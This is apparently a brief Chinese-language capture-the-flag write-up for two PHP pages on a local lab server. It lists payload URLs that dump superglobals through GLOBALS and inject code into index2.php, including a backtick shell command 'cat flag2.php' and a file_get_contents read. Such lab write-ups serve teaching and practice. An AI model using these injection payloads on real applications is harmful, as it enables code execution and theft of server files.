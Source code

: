 
## writeUp 

### index1.php

利用超全局变量GLOBALS
```
http://127.0.0.1/web1/index1.php?args=GLOBALS
```

### index2.php 

利用命令注入;
```
http://127.0.0.1/web1/index2.php?hello=1);echo `cat flag2.php`;//
```
另一种利用方法:
```
http://127.0.0.1/web1/index2.php?hello=file_get_contents(%27flag2.php%27)
```